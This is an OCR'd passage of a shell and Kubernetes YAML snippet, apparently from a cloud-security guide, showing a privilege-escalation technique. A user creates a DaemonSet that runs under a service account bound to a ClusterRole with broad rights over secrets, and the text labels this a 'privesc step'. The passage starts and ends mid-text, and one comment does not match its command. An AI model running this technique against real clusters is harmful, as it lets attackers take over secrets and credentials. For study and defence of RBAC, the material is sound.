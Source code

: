 ```bash
resources: ["secrets"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io
---
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
automountServiceAccountToken: false
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100']' | kubectl apply -f -

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
```